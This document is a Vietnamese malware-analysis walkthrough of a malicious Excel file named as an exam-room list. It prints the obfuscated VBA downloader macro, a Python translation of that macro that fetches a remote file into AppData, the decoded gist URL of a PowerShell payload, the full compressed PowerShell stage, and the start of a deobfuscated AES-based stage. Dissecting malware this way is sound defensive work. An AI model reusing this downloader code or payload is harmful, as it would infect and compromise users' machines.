³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸²¤µ»°°§§¹¾©·¬·ª°¸°¡¥·µ¬¹¿¬ = ¦¡º¾¿°®¹½º°¡£¿¡¢³´º¥¦²¤°°·¥®½½¡¶«¥¸¹«©·¬°·®¶£³¬§§¹°«µ©¹¢´¥ª¾¾¸»¹©§²·°¢ª¸¢£¡ + ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨("\k¿i6Ü_~Bb@")
³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸².Open "get", ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨("ܳ³Bb://uàb³~uà³Ü¿k¿bE²6xi³Ei³~6xQ/k7¿_iQ_i/fÀ3_o-3Yf0_E6m6kk3_km§3Y03ÀY_3__/²_Ä/À3EÀkfmfÀ@Eããoãä§k@_@ã0ä6_E3-ãY036-@@koo/_Àmb6m@§~Bb@"), False
³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸².send
´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦ = ³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸².responseBody
If ³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸².Status = 200 Then
Set ¥·µ¬¹¿¬¯¨³³¿¯©¶¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼ = CreateObject("adodb.stream")
¥·µ¬¹¿¬¯¨³³¿¯©¶¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼.Open
¥·µ¬¹¿¬¯¨³³¿¯©¶¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼.Type = ¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡
¥·µ¬¹¿¬¯¨³³¿¯©¶¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼.Write ´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦
¥·µ¬¹¿¬¯¨³³¿¯©¶¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼.SaveToFile ³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸²¤µ»°°§§¹¾©·¬·ª°¸°¡¥·µ¬¹¿¬, ¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡ + ¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡
¥·µ¬¹¿¬¯¨³³¿¯©¶¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼.Close
End If
²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥.Open (³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸²¤µ»°°§§¹¾©·¬·ª°¸°¡¥·µ¬¹¿¬)
Else
MsgBox ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨("åxi'³P³²ÛP³xP²¿iPQEPk²x")
End If
End Sub

-------------------------------------------------------------------------------
VBA MACRO ThisWorkbook.cls 
in file: Danh%20s%C3%A1ch%20ph%C3%B2ng%20thi.xls - OLE stream: u'_VBA_PROJECT_CUR/VBA/ThisWorkbook'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO Sheet1.cls 
in file: Danh%20s%C3%A1ch%20ph%C3%B2ng%20thi.xls - OLE stream: u'_VBA_PROJECT_CUR/VBA/Sheet1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO Sheet2.cls 
in file: Danh%20s%C3%A1ch%20ph%C3%B2ng%20thi.xls - OLE stream: u'_VBA_PROJECT_CUR/VBA/Sheet2'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO Sheet3.cls 
in file: Danh%20s%C3%A1ch%20ph%C3%B2ng%20thi.xls - OLE stream: u'_VBA_PROJECT_CUR/VBA/Sheet3'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO xlm_macro.txt 
in file: xlm_macro - OLE stream: 'xlm_macro'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
' 0085     14 BOUNDSHEET : Sheet Information - worksheet or dialog sheet, visible - Sheet
' 0085     14 BOUNDSHEET : Sheet Information - worksheet or dialog sheet, visible - Sheet
' 0085     14 BOUNDSHEET : Sheet Information - worksheet or dialog sheet, visible - Sheet
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |AutoOpen            |Runs when the Word document is opened        |
|AutoExec  |DocumentOpen        |Runs when the Word document is opened        |
|AutoExec  |Document_Open       |Runs when the Word or Publisher document is  |
|          |                    |opened                                       |
|AutoExec  |Auto_Open           |Runs when the Excel Workbook is opened       |
|AutoExec  |Workbook_Open       |Runs when the Excel Workbook is opened       |
|Suspicious|Shell.Application   |May run an application (if combined with     |
|          |                    |CreateObject)                                |
|Suspicious|CreateObject        |May create an OLE object                     |
|Suspicious|adodb.stream        |May create a text file                       |
|Suspicious|SaveToFile          |May create a text file                       |
|Suspicious|Shell               |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|WScript.Shell       |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|Open                |May open a file                              |
|Suspicious|Write               |May write to a file (if combined with Open)  |
|Suspicious|Chr                 |May attempt to obfuscate specific strings    |
|          |                    |(use option --deobf to deobfuscate)          |
|Suspicious|microsoft.xmlhttp   |May download files from the Internet         |
|Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
+----------+--------------------+---------------------------------------------+

```

</details>
- Ở đây ta lại có 2 sự lựa chọn, 1 là thay thế bằng tay từng biến, 2 là dùng AI để nó tự thay thế, mình thì chọn cách thứ 2 (tiện tay mình chuyển luôn sang python cho dễ đọc 😉)

```
import os
import base64
import datetime
import requests

def decode_function(encoded_string):
    decode_table1 = " ?!@#$%^&*()_+|0123456789abcdefghijklmnopqrstuvwxyz.,-~ABCDEFGHIJKLMNOPQRSTUVWXYZ¿¡²³ÀÁÂÃÄÅÒÓÔÕÖÙÛÜàáâãäåض§Ú¥"
    decode_table2 = "ãXL1lYU~Ùä,Ca²ZfÃ@dO-cq³áÕsÄJV9AQnvbj0Å7WI!RBg§Ho?K_F3.Óp¥ÖePâzk¶ÛNØ%G mÜ^M&+¡#4)uÀrt8(ÒSw|T*Â$EåyhiÚx65Dà¿2ÁÔ"
    
    decoded_string = ''
    for char in encoded_string:
        index = decode_table1.find(char)
        if index != -1:
            decoded_string += decode_table2[index]
        else:
            decoded_string += char
    
    return decoded_string

def main():
    # Get AppData path
    app_data_path = os.getenv('APPDATA')

    # Example of decoded text and setting a value in a hypothetical Excel cell (simulated here)
    encoded_text = "4BEiàiuP3x6¿QEi³"
    decoded_value = decode_function(encoded_text)
    print("Decoded value to be set in Excel (simulated):", decoded_value)

    # Further processing and potential malicious activity
    obfuscated_text = decode_function(
        "$x¿PÜ_jEPkEEiPÜ_6IE3P_i3PÛx¿²PàQBx²³_i³P3x6¿QEi³bPÜ_jEPkEEiPb³x#Eir"
        "ÒxP²E³²àEjEP³ÜEbEP3_³_(PÛx¿P_²EP²E7¿à²E3P³xP³²_ib0E²P@mmIP³xP³ÜEP0x##xÄàiuPk_iIP_66x¿i³Pi¿QkE²:P"
        "@m@m@mo@@§mmm"
        "g66x¿i³PÜx#3E²:PLu¿ÛEiPÒÜ_iÜP!xiu"
        "t_iI:PTtPt_iI"
    )
    print("Obfuscated text:", obfuscated_text)

    # Date checks
    current_date = datetime.date.today()
    specific_date = datetime.date(2023, 6, 6)

    if current_date < specific_date:
        target_url = decode_function("ܳ³Bb://uàb³~uà³Ü¿k¿bE²6xi³Ei³~6xQ/k7¿_iQ_i/fÀ3_o-3Yf0_E6m6kk3_km§3Y03ÀY_3__/²_Ä/À3EÀkfmfÀ@Eããoãä§k@_@ã0ä6_E3-ãY036-@@koo/_Àmb6m@§~Bb@")
        response = requests.get(target_url)
        
        if response.status_code == 200:
            save_path = os.path.join(app_data_path, decode_function("\\k¿i6Ü_~Bb@"))
            with open(save_path, 'wb') as file:
                file.write(response.content)
            print(f"Response saved to {save_path}")

if __name__ == "__main__":
    main()

```
- Phân tích sơ qua, script giải mã chuỗi `ܳ³Bb://uàb³~uà³Ü¿k¿bE²6xi³Ei³~6xQ/k7¿_iQ_i/fÀ3_o-3Yf0_E6m6kk3_km§3Y03ÀY_3__/²_Ä/À3EÀkfmfÀ@Eããoãä§k@_@ã0ä6_E3-ãY036-@@koo/_Àmb6m@§~Bb@` bằng hàm `decode_function` sau đó tải xuống theo đường dẫn đã được giải mã.
- Sửa lại script 1 tí để lấy được đường dẫn 
```
def decode_function(encoded_string):
    decode_table1 = " ?!@#$%^&*()_+|0123456789abcdefghijklmnopqrstuvwxyz.,-~ABCDEFGHIJKLMNOPQRSTUVWXYZ¿¡²³ÀÁÂÃÄÅÒÓÔÕÖÙÛÜàáâãäåض§Ú¥"
    decode_table2 = "ãXL1lYU~Ùä,Ca²ZfÃ@dO-cq³áÕsÄJV9AQnvbj0Å7WI!RBg§Ho?K_F3.Óp¥ÖePâzk¶ÛNØ%G mÜ^M&+¡#4)uÀrt8(ÒSw|T*Â$EåyhiÚx65Dà¿2ÁÔ"
    
    decoded_string = ''
    for char in encoded_string:
        index = decode_table1.find(char)
        if index != -1:
            decoded_string += decode_table2[index]
        else:
            decoded_string += char
    
    return decoded_string
target_url = decode_function("ܳ³Bb://uàb³~uà³Ü¿k¿bE²6xi³Ei³~6xQ/k7¿_iQ_i/fÀ3_o-3Yf0_E6m6kk3_km§3Y03ÀY_3__/²_Ä/À3EÀkfmfÀ@Eããoãä§k@_@ã0ä6_E3-ãY036-@@koo/_Àmb6m@§~Bb@")
print(target_url)
```
> Kết quả là : https://gist.githubusercontent.com/bquanman/98da73d49faec0cbbdab02d4fd84adaa/raw/8de8b90981e667652b1a16f5caed364fdc311b77/a80sc012.ps1

- Ở đây ta lại có 1 file powershell mới 
<details>
<summary>
 Xem mã powershell tại đây 
</summary>

```
  . ((VaRIablE '*MdR*').NAmE[3,11,2]-JOIn'') (nEW-OBJeCT IO.cOmPrEsSion.DeflAteSTREam( [sYStEm.IO.MeMOrYSTreAM][CoNVeRt]::frOMBase64sTriNG('rVp7b9ras/2/n8KyojpRCg3k0aRVpcvDpBAeiTGvRJXGGCdAwBDbQBwu3/3OzLbBNrT3/M6956go2Hjveay1ZmbD0fraAf28k9tI0k/pyfPvrd/H8jqzWV9v1heb9dVmfblZ32zW2c36fLM+26y/beRUSVIGyhf8HL7P4PtnSXH9pvJF0dWpcvJFLHBGNxRVq+H1IV5VGolHrELLKeNNryeeEXckujXEy710YRS5gRaIe2nT8fH2PW3XuNWMOa1t4bu0iy/4TvqRPlaabfwjtt23LN4eXzbwunQsSU96b86+3vDqF+wcOp05Y68zWXJ1ncmw31kKA26Pjus9JXAwyz5KwhUy2PXw1ZqiHeQtRkiZ4r+FM1KEgXP8VxwpMV+VNF40NQqB4vKt7GYbPQmDQAGakZu/hHdfFPsF/zKK5Af6KknS0boL9efi5uc2f2zamm3nZTwrFnu2K2026m1ar+lT4FRHpxV/0HK/oLrsZDaICIREb7vkBcfiMrSPPR/Vb8Ols7v8USA4AGnVLvAe8aBxHulDBBpPrdFHemREVzlBC9KJBZWmpYtoRp1IjXQO7AkmOpbpZQ6va2Xl5DSOKgMv96uquL71QfG/4fXvN1laSCDDn4csCHNcksJHCIe0WF310gObDKil2ZFtJD1e6AfGsQWVLmimSIy6t6Ri39KTnoOvI8Lt88I2vdHMlgoOqDndSkHOasLUsHNwaxVnkIeKBQXv+Gi9fIdHHabPz5svuM8l6FDTOvNqy9+cSOtPiAmJX47WucqiAm3Qco9wc7ORdv/95ChndsyWg8TF0Fkn3K5SUVILwFOC+2Ny2hRE+8YycS2AJ5InxONcsIg5JvYg+trGywHcFJjaM0K6R2vTO4twNCdFeHGMOAKadN/1kHJRBWH7zEUQVYGx9N5mTDy3RpjIEYa28WqNlw6IcKXl2gwGlhxGjOGR3mP/RFVi4VG8FEPwRU3ETcn1A2QS0uRrx5NP5fOOIZ9IqbYxWVjI6O/fZRPyphzYY1QWY5E/tuc+BwMYlO1bWRh0HHIl8JvkRXFY4uSdZotoTazv37LjyyDAS3JcKxt91pG03M5BtWXJuP2HBdrMDQ3IQaVVoYh8iIjkJ9AA87U5+lBltCCTvQ4/OF5AZYmWBh98tXy3DB+WsDR7ebWD5ehZOmbU1kDr3E8WO9RuPxL72FQDBDd+LJ2sBpFSg8AiPXixQuDM8a+0PKq30eBXSz7GNzbkamh2ynqT9rDXJD0iaXVGNiVoZ1CQCRhDC8ZLzRCpKC9lzsDnaLkj0A1GQfxDS0mFeYulIdKP8p3HF0zIe700wM3S8jI3AQ7/AVKOWPFLzmwHs8B/xSUiTvO07tUFgx3VBJcr29Bu3KHTGD8dpQHucXkM89anzX64rYlr7Xs9biH+HCPgQxna5DWu6k21FdxXadXEoptkotsoVl4NSqW/pbnd/QBStNJmj2DRAJO/qM/kKgXF8thbqC9nd4dSHK1UHEWOz4HkjjG17Ce7eQeWL7IrfT5Wqk0lXmKUNqXQGSGdT06ViZKoM9b3bp0SRjepTHN6YbJQt+k9C2EhPIpphOGKZE/z5OTVRVNJaC/74WFXQbgZ2csGiERjTcAQTinM/3Gac+g/1gkSPkHeIAC4KlBiqNL8Oc0kUyibWg4YJp82n7aVzII6FLTeXGccfGCdgpIoWloDSveDN9CghM8kylYefNDVZrRgJQVYkCPZVVicGaZYf0IBXDIZYxGeLDuiJz1VMmF6EMiUHnkB+vO1nI70UCLoPvd2rpJoVG8Zg3lORRmVZgavKuXCQc0pzQcPGvsWBmm8GLc1iJdiUYcvQkwEBZOcidmcoo0Mj8XN9ETRiuPG4loZFOWCE9cKspVrnRvUXuQAcU4QM8jt0fqtCOW3KtwaD9Fm4ee2DmkBPhIMVWaOkmzU0QS2F5s66pLMvRaCnHCIyYxiaAsCB4ZMVjCCYW9aLoWGkBEPA7z6Vn0x3gIjzrkpjXoZtYLJYkxwn/yEq16iGk9LVC2f0XgK6ispC3UYiu1y4UBRCanVB1+3mgjbM0Jun8BpuUiTKsL7RR/KJz/Y7qe+71lPv3/jZ56RTrn3VucB6uTBT1FJF1Q/sJRuC8gp+dqB0a/edFRi7oRQgVZlV/cPobw44nlnFhrbRmPVMIK4xDtgbdkgpL1G3nCtK7iAJugafvJWFt7NXtm50hhy0IVW563OYI2wd2AVQPPhXhcC7cGUVFzE4K7ivD9A4Rn22dvv6aC68W4zqJSxFmyZpNNI8JZRntOYucq7/ayc4rzJRG0bOx093+yViV3jyt0fKuUJdztROhNVrvDuBRd8rJ08rpWCsonNwh0zOP8KY+0d3swogy897LO5F+nFpYkTnIce4+LpLJ3OXP7edXBQwcoCH1tO/YxMOBch4ZOVDumD9hXi8zR1tmT2ODEyM5usVM5iZ1AF4nzED9QM2wgaHCtg//ujzvmURJOwgjm2gL0QgrV6cQqdnp2PqBXDuAKo9YhMdigmXpmw1VHYdmrmo1WT1aBomfFmncdiT5CwsG1eGJsBrYg6Q68Ktd4QJiGbalAvwrTj2/nAirMgkGTO5Zb/euLQ4Zl6X4eYHz+nmMxYAPJJjSCOOYbNczf5NAmlIVT6PiVdJW3IXAXiQFKRlidq/QX0X7gK3ol4QuFrx3gdZNa1kpXenc/EkYEoLxCnOA3q1TbgoE51S4cS1i35FlTQsclBE1/IvBwFboo2DilyuIwOWrkmHz+ZQ8P5fRZje3MIarWKDxWfKx+QMWfMdB+L2vX79HJzEuN4YQUf7R60KwkiRCnxeW9UYvDWrURSVqkGjeZjMcvLu4OGqJTj9ctgra3uU+boIIjqvenSROfMTC7UbtMzHC8cAW3W+Tgaxaxu7U4nttJEpSHNkxSf6Bgv9mw3IKLfj20f2mNMcak8sWwDpuGEGFODYmn8mAEMYvggdOBj2VvSgw5YxbJmmaC7OuTsoqENVA17Bk0Wz2KSFlb4oLl6xErQw0inZY2eU8HUwQU9Vx8YDhRnLf2+pYtuzdNwiojs+LgEnx9sNVUXhmp1AlYXRb2FQiVHrS1Bruqq2y1h9bH0gZ80tBdoTdW615T3nfQb1/AOCI7gwfkf0ZDUve0Bw0qJC9xYKBxKGGYmJQ4XrjjroVRuj+Oe9/BVHBFJ/fAkbsvmXem8D+Zf1xsRYk4IMopAyEuyHJnU8CmugEgIgHuMCQYfco4+qkOpkcx9EJkg3YiTKGvmEc5LkRaP+n6GqxdsRnxHjWG6S//NTIocDKIMxWWqvqAOx0vxyeMiamvkwWDgUN9HCf55JQoKK3DHGAkreLSA2U5vws78l/1eh5YDnVCJ5xQQzwBG46CBHfQc4ZhsoePKxj2hPuNilYy6xq2uGItxssOK/KruOsP6tPM6xu46B/moAU0Pr9RhkHMGFmgOMmnneThJK/ZA7BqPHV3UsGChLaooP0vq4yPd6CsUoD42HwZV2vBYaeeq2JKUi5JyKh/lh3bXbjkYDrCP7GnnrtLI9W9u5PDhOzDtivkAxQkNRsi0x6VfcDYMky0bdi2Akskma7ekpOns+uxbwvDsGZ1s0bnlF+U6xiLlhu5kbki2UBRgVdKd8ma7odA4OvY8P8cJ6JMYzWjGC4zKhoX0anfsT5QjW7rlvV4fFTyZxHGNlp9mgxPCxF0K+dfzO7q5wD9vcwT909rP/SmiKtQ94lusag+LeP8bL3RFcUgElD8dO1C/a9IhUZcw9pWe0uJF4TUexsm0QlK0WzkgTFelBpIiT8GzN4L055+I9isYZ/XOkKIty3jFxxYa5XbFx+mIhxvI9r5tuION9KTxYU20c96vGelPnew0ptQ83SrbYYkpQbqNGlS67RY/xpw8eU57FqFkevhSEwmNdYpDlhn6nuRUUr4r+Cp//XpUemz3Cpq8u3akI2i00VfHepFpo9c2POS7/YXGS/6X6AViQSFKk5knZMYRrtbSV7IUfm6Xgjl54vnB557rbP5jRQ5OFTCGnXEWOIRk/OdtQxAJl0QDcVzaOWY02Ft9zXpbiE74lfaylzNG0YmUarkWNvwj895wXBwP8IIzwpwMKF5QpHil8rOBz5xvw1v+vd9CqqZqljecDWLteYOBdM8qZc4wC7pa1yn2+rJXAwt6jib0KXZwNPTIyv8g+O5i4rlfj8xOJauvhpyJEVSe/aaaDSQkLqzUTNMm/3ADz3BfY8vjNCwd//gR7/VqkDu76NbgpSdSstP2sONmZNlxLr2hKUEaDkkGjZ8pzhf1fho3Yt5fclTGzrnUY7/DfCi3qk6MMBsUf6vuyfGjx1R95pH9LfE1TOT07XwrrZO40WWXju4Wk8gcsLV4OuczC+K+L77QFGU6PCUQYZre+puTkwPnnEfraSSOPyMn93vl0dkOSopP34TQtAbdR3EORwkxcB2ovfQ20dVzZxBc5bI4NfA9dGsvfmzQUEbkhTufBNbD7DUyU9BCpSrkboMpCw2mBg/XfDr7/aez29IEci+byLF6qPNUKDH7RSUakNgCYsdOPgPNTm8GYyuyr/DlKfM78WlqOvHeZXMTNls1crXLn86m0+JxYTWd0Yg5LL6KMHzVz7jQ8WdQsTbxI+MDPdbQmohu8K/OBCEMTEsWcvPAod10wG3ou6WcHFjJx17nulu7FOr+1ZTkv++NBLYMc0jeGRtpZNMSM2zSa3Dp4giHb3uzoGeXTvlkb0OCgP9vDux+Z9Yr2Pxw5xODLI+n9KWcNZkwPhmXPo2KtctDK70W7HEBu6DdQrG2nKml2qY4NhDHEx/iSwN62MT+C8y3weTg0su3fhfyQFJNpSnOpYmX7E0cnhAXNGxSBbrD/qzwUJzI+2vvXfgszp3Owv4o6FK4zJCYxTd6W/BOXuLAoxzUpOSJKIlgcDrzJxH02uDXQPVB4+oSLVYPfazOh4qVFJyDKPeNZgJicY/pmwHBi04/01xBDxpJXoQ4nq2CHzRE+ysp0FP+57hD6x9R5TlGle2J7u4LvthBEW7suOEvPt7pZUgvk0n6MHuIPIz1f82eHswI0yF5Gtf/lDtb0ArIf45jww3sZqwzyMlW6P6BPThEAPKneICH8XXFabsTLR3L7qP4Zo0IXajD2HwrHiTSXfutj9KQ3yPS3i48GGNrwvOz8u94tD3/vNz9VEXB4SsxnHawnxO0CI9yoydkJBvY7G17vdRfOghv6dfUHmiwx5037GzhYKfHu2x7vX9EnlUfMu6q14gWlYhoEjksa75XEkUKwlniaWR7vwP8TgFLXbT8RnCBvIe8IH6QsS1dnOQxm0tyNPEC3TuQps/bvu4icpgrxcLOEzpFGvPCrV0iYVHRw5T8NR9t6E0t38GMRBNyt6RJI///pWWcjo4Ps7G6X+Ot+LxHv4tyLNvYF66DKOaDskrWA55VRCuCovnXjOntHqDToDm78SDyyxHRv/8f5oP9HUfjEvRc2B8YaD+x4b8eF/6X8BA8+9DlIUqS9opzWJujPyxikDp/xujuJyAXsd9WxHAY1uXZK38tItCqESK36GRF+SM0OUuqr+1Bk0bCw0rxL4QC8tR+9hp7QrHrHkbeQaGw3kfeH/YQf8W/WpjHKRpokPgaqB5+nb/5Hw==' ) , [iO.COmpreSSIOn.cOMPrEssionmode]::decOMpReSS )|% {nEW-OBJeCT  Io.StREamreadEr($_,[TEXt.enCoDInG]::AsciI )} ).reAdToENd()   
```

</details>

- 
- Nhìn kĩ thấy rằng chuỗi đã được `cOmPrEsSion.DeflAteSTREam` sau đó chuyển sang base64
- Dùng cyberchef để giải mã 
- 

<details>
<summary>
 Xem mã powershell sau khi giải mã tại đây 
</summary>

```
${8r`T3WA}  = [tyPe]("{1}{8}{4}{6}{5}{9}{2}{3}{0}{7}"-F 'd',("{0}{1}"-f 'syS','TEm'),("{1}{0}"-f'ERM','h'),'O',("{0}{1}"-f 'eCUrI','tY'),("{0}{1}" -f 'h','Y.Ci'),("{0}{1}{2}" -f '.cry','P','TOGRap'),'e','.s','p') ;.('SV') ("{0}{1}"-f '72','j5O')  (  [TYpe]("{9}{1}{4}{0}{8}{10}{6}{12}{7}{11}{3}{2}{5}" -F 'TY',("{1}{2}{0}" -f 'eC','Yst','em.s'),'Od','m','uri','e','p','Di',("{0}{1}" -f'.','cRY'),'s',("{2}{1}{0}"-f 'Y.','toGRapH','p'),'ng','aD')  ) ;   ${X`NfD}=[tyPe]("{2}{0}{1}{3}"-f 'te',("{0}{1}"-f'm','.cONV'),'Sys','ErT')  ;  ${H`LvW1} =  [tYPe]("{2}{4}{3}{5}{1}{0}" -f 'iNG',("{0}{2}{1}" -f 't','Od','.EnC'),'S',("{1}{2}{0}"-f '.t','S','tEM'),'Y','EX');  .("{0}{2}{1}" -f'SeT','m',("{0}{1}"-f'-iT','e')) (("{0}{1}"-f 'vA','RI')+("{0}{1}" -f 'a','bLE')+("{1}{0}" -f'y7',':92'))  (  [Type]("{1}{2}{0}" -F ("{1}{0}{2}"-f 'NEt.dn','eM.','S'),'Sys','t'))  ; ${U`JX`Rc}=[tyPE]("{1}{2}{0}" -F 'nG','Str','i') ;function Cr`EATe-`AeS`manA`GeDo`B`Je`Ct(${vx`ZT`mff}, ${5`T`MRWpLUy}) {
    
    ${AJuJ`V`RAZ`99}           = .("{1}{2}{3}{0}"-f 't',("{0}{1}" -f'Ne','w-'),("{1}{0}" -f 'e','Obj'),'c') ("{7}{9}{8}{0}{10}{2}{6}{5}{3}{11}{1}{4}"-f 'ty','nag',("{0}{2}{1}" -f 'Cry','o','pt'),'y','ed','ph','gra',("{0}{1}"-f'Sy','stem.'),("{0}{1}"-f 'ecur','i'),'S','.',("{0}{2}{1}" -f'.','sMa','Ae'))
    ${AJUjvr`AZ`99}."Mo`de"      =   (  .("{1}{2}{0}" -f 'lE',("{1}{0}" -f't-vA','gE'),("{1}{0}" -f'Ab','RI'))  ("8rt"+"3Wa") -Value  )::"c`Bc"
    ${aJuj`V`RAZ99}."PA`d`dInG"   =  ( .("{0}{1}"-f 'Di','r')  ("{2}{3}{0}{1}"-f'le:72j5','o','v','ARIab')  )."VA`LUe"::"ze`Ros"
    ${A`JUJvr`Az`99}."Bl`O`ckSizE" = 128
    ${Aju`Jv`RAz`99}."keysI`ze"   = 256
    
    if (${5`TM`RWPluy}) {
        
        if (${5`TmR`WpLuy}.("{0}{1}{2}" -f ("{1}{0}"-f 'tT','ge'),'y','pe')."iNV`O`ke"()."n`AME" -eq ("{0}{2}{1}" -f 'St','g','rin')) {
            ${a`j`U`jvRaZ99}."Iv" =  (&("{1}{0}"-f'r','di')  ("{0}{1}{2}{3}" -f 'va','RI','aB','le:xNFd'))."vAl`Ue"::("{1}{2}{3}{0}"-f 'ing','Fro',("{1}{0}{2}" -f'se','mBa','64'),'Str')."In`VOKe"(${5TMRW`Pl`Uy})
        }
        
        else {
            ${ajUj`VraZ`99}."I`V" = ${5tmRw`PL`Uy}
        }
    }
    
    if (${Vx`ZtM`FF}) {
        
        if (${VXz`T`mfF}.("{1}{2}{0}" -f ("{1}{0}"-f'e','Typ'),'g','et')."I`NvoKe"()."n`AME" -eq ("{1}{0}" -f 'ing','Str')) {
            ${ajU`j`VraZ99}."K`ey" =  ( &('LS') (("{0}{1}"-f'V','ariAb')+'l'+("{0}{1}" -f 'e:XN','F')+'D') )."vA`luE"::("{1}{0}{2}{3}"-f'e',("{1}{0}" -f'as','FromB'),'64S',("{1}{0}" -f 'ng','tri'))."invO`Ke"(${vx`z`TmFF})
        }
        
        else {
            ${AjU`J`Vr`AZ99}."k`ey" = ${v`Xz`Tmff}
        }
    }
    
    ${aJUjvRA`Z`99}
}
function e`N`CRYpT(${VxzT`M`Ff}, ${RO`FPdq`R`F99}) {
    
